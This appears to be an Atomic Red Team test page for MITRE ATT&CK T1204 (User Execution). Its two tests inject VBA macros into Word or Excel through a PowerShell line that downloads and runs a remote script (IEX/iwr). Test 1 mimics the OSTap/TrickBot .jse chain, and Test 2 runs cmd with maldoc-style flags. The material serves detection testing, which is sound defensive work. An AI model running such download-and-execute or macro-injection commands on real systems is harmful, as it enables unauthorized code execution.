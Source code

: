 # T1204 - User Execution
## [Description from ATT&CK](https://attack.mitre.org/wiki/Technique/T1204)
<blockquote>An adversary may rely upon specific actions by a user in order to gain execution. This may be direct code execution, such as when a user opens a malicious executable delivered via [Spearphishing Attachment](https://attack.mitre.org/techniques/T1193) with the icon and apparent extension of a document file. It also may lead to other execution techniques, such as when a user clicks on a link delivered via [Spearphishing Link](https://attack.mitre.org/techniques/T1192) that leads to exploitation of a browser or application vulnerability via [Exploitation for Client Execution](https://attack.mitre.org/techniques/T1203). Adversaries may use several types of files that require a user to execute them, including .doc, .pdf, .xls, .rtf, .scr, .exe, .lnk, .pif, and .cpl. 

As an example, an adversary may weaponize Windows Shortcut Files (.lnk) to bait a user into clicking to execute the malicious payload.(Citation: Proofpoint TA505 June 2018) A malicious .lnk file may contain [PowerShell](https://attack.mitre.org/techniques/T1086) commands. Payloads may be included into the .lnk file itself, or be downloaded from a remote server.(Citation: FireEye APT29 Nov 2018)(Citation: PWC Cloud Hopper Technical Annex April 2017) 

While User Execution frequently occurs shortly after Initial Access it may occur at other phases of an intrusion, such as when an adversary places a file in a shared directory or on a user's desktop hoping that a user will click on it.</blockquote>

## Atomic Tests

- [Atomic Test #1 - OSTap Style Macro Execution](#atomic-test-1---ostap-style-macro-execution)

- [Atomic Test #2 - Maldoc choice flags command execution](#atomic-test-2---maldoc-choice-flags-command-execution)


<br/>

## Atomic Test #1 - OSTap Style Macro Execution
This Test uses a VBA macro to create and execute #{jse_path} with cscript.exe. The .jse file in turn launches wscript.exe.
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

This is a known execution chain observed by the OSTap downloader commonly used in TrickBot campaigns 
References:
  https://www.computerweekly.com/news/252470091/TrickBot-Trojan-switches-to-stealthy-Ostap-downloader

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|
| jse_path | Path for the macro to write out the "malicious" .jse file
 | String | C:\Users\Public\art.jse|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "   Open `"#{jse_path}`" For Output As #1`n   Write #1, `"WScript.Quit`"`n   Close #1`n   Shell`$ `"cscript.exe #{jse_path}`"`n"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
if (Test-Path #{jse_path}) { Remove-Item #{jse_path} }
try { Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' } catch {}
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Word to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
<br/>

## Atomic Test #2 - Maldoc choice flags command execution
This Test uses a VBA macro to execute cmd with flags observed in recent maldoc and 2nd stage downloaders
Execution is handled by [Invoke-MalDoc](https://github.com/redcanaryco/invoke-atomicredteam/blob/master/Public/Invoke-MalDoc.ps1) to load and execute VBA code into Excel or Word documents.

**Supported Platforms:** Windows


#### Inputs:
| Name | Description | Type | Default Value | 
|------|-------------|------|---------------|
| ms_office_version | Microsoft Office version number found in "HKEY_CURRENT_USER\SOFTWARE\Microsoft\Office" | String | 16.0|
| ms_product | Maldoc application Word or Excel | String | Word|


#### Attack Commands: Run with `powershell`! 
```
IEX (iwr "https://raw.githubusercontent.com/redcanaryco/invoke-atomicredteam/master/Public/Invoke-MalDoc.ps1")
$macrocode = "  a = Shell(`"cmd.exe /c choice /C Y /N /D Y /T 3`", vbNormalFocus)"
Invoke-MalDoc $macrocode "#{ms_office_version}" "#{ms_product}"
```

#### Cleanup Commands:
```
try { Remove-ItemProperty -Path 'HKCU:\Software\Microsoft\Office\#{ms_office_version}\#{ms_product}\Security\' -Name 'AccessVBOM' } catch {}
```


#### Dependencies:  Run with `powershell`!
##### Description: Test Requires MS Word or Excel to be installed and have been run previously. Run -GetPrereqs to run msword and build dependant registry keys
##### Check Prereq Commands:
```
If (Test-Path HKCU:SOFTWARE\Microsoft\Office\#{ms_office_version}) { exit 0 } else { exit 1 } 
```
##### Get Prereq Commands:
```
$msword = New-Object -ComObject word.application
Stop-Process -Name WINWORD
```




<br/>
